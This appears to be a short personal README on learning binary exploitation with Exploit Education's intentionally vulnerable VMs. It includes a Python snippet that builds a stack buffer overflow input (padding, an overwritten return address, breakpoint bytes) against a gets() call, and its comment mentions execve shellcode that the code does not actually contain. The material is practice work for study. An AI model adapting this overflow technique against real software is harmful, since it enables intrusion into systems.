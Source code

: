 > Best way to learn systems

The webiste is [here](https://exploit.education/). It has vulnerable virtual machine images which can be mounted and booted using [qemu](https://www.qemu.org/).
I got to know about this particular resource by [this](https://www.youtube.com/playlist?list=PLhixgUqwRTjxglIswKp9mpkfPNfHkzyeN) amazing playlist on binary exploitation by [Live Overflow](https://www.youtube.com/@LiveOverflow).

The machines have all the modern security features (like ASLR) disabled by default, hence the focus is primarily on cracking binaries. Some of the snippets which helped in cracking them are listed below.

```python
# affects the following pattern:
#     gets(buffer);
#     return 0;
# }
import struct

# padding to find input offset for the binary
padding="AAAABBBBCCCCDDDDEEEEFFFF"
# instruction to return to (leave instruction at end of main)
eip = struct.pack("I",0x7fffffffdba8) 
# nopslide
nopslide = "\x90"*100
# shellcode (execve bin/dash)
# \xCC is the opcode to generate breakpoint trap (very useful while cracking the binary inside gdb)
# check references
payload = "\xCC" * 4 

exploit = padding+eip+payload
print(exploit)
```

### References
- [Call to Interrupt Procedure](https://www.felixcloutier.com/x86/intn:into:int3:int1)
